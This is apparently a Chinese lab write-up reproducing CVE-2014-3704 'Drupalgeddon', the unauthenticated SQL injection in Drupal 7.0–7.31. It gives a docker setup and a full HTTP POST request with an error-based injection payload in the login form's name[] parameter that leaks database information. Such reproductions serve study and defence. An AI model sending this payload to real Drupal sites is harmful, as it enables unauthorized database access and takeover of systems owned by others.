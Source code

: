 （CVE-2014-3704）Drupal \< 7.32 "Drupalgeddon" sql注入漏洞
==========================================================

一、漏洞简介
------------

Drupal
是一款用量庞大的CMS，其7.0\~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

二、漏洞影响
------------

Drupal 7.0\~7.31

三、复现过程
------------

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](./resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId25.png)

安装完成后，访问首页：

![](./resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId26.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

    POST /?q=node&destination=node HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 120

    pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a

可见，信息已被爆出：

![](./resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2014-3704/
